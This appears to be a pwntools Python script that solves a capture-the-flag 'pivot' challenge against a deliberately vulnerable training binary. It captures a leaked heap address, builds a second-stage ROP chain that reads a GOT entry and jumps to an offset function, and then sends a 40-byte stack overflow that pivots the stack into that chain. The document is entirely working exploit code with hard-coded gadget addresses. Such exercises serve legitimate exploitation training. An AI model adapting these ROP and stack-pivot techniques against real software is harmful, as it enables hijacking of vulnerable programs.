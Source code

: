 ```python
from pwn import *

# Gadgets

pop_rax             = p64(0x0000000000400b00)
xchg_rax_rsp        = p64(0x0000000000400b02)
mov_rax_mrax        = p64(0x0000000000400b05)
pop_rbp             = p64(0x0000000000400900)
add_rax_rbp         = p64(0x0000000000400b09)
call_rax            = p64(0x000000000040098e)

# Addresses

foothold_plt        = p64(0x00400850)
foothold_got        = p64(0x00602048)

pivot = process('./pivot')
heap_address = int(pivot.recvline_contains('The Old Gods kindly bestow upon you a place to pivot:').decode('UTF-8').split(' ')[-1], 16)
print(hex(heap_address))

heap_address = p64(heap_address)

pid = util.proc.pidof(pivot)[0]
print("[*] PID = " + str(pid))

# Uncomment this if you want to use the debugger
#util.proc.wait_for_debugger(pid)

second_stage = b""
second_stage += foothold_plt
second_stage += pop_rax
second_stage += foothold_got
second_stage += mov_rax_mrax
second_stage += pop_rbp
second_stage += p64(0x14e)
second_stage += add_rax_rbp
second_stage += call_rax

pivot.recvuntil("Send your second chain now and it will land there")
pivot.sendline(second_stage)

first_stage = b"A" * 40
first_stage += pop_rax
first_stage += heap_address
first_stage += xchg_rax_rsp

pivot.recvuntil("Now kindly send your stack smash")
pivot.sendline(first_stage)

output = pivot.recvall()
print(output)
```
